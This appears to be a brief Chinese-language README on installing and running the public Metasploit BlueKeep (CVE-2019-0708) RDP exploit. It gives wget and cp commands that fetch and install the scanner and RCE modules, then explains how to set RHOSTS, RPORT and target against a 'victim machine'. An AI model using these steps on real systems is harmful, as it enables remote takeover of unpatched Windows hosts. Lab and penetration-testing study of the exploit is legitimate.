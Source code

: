 # bluekeep

```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb

wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/rdp_scanner.rb

wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb

wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb
```

> 已保存到rb文件夹下

## 下载下来后，直接复制到对应的路径。

```sh
cp rdp.rb /opt/metasploit-framework/embedded/framework/lib/msf/core/exploit/

cp rdp_scanner.rb /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/

# 如果这里没有rdp目录，就用mkdir命令创建一个rdp目录

cp cve_2019_0708_bluekeep_rce.rb /opt/metasploit-framework/embedded/framework/modules/exploits/rdp/

cp cve_2019_0708_bluekeep.rb /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/rdp/
```

## 使用`reload_all`重新加载0708rdp利用模块

先 `use auxiliary/scanner/rdp/cve_2019_0708_bluekeep` 扫一下

再  `use exploit/rdp/cve_2019_0708_bluekeep_rce` 

> 小心蓝屏


### 主要设置的参数有RHOSTS / RPORT / target

* RHOSTS 靶机ip
* RPORT rdp端口
* target ID数字(可选为0-4)设置受害机机器架构

> target 234 多数是虚拟机，默认为0,3 是 vmware较多使用

> show targets //显示exploit支持的操作系统类型，虚拟机类型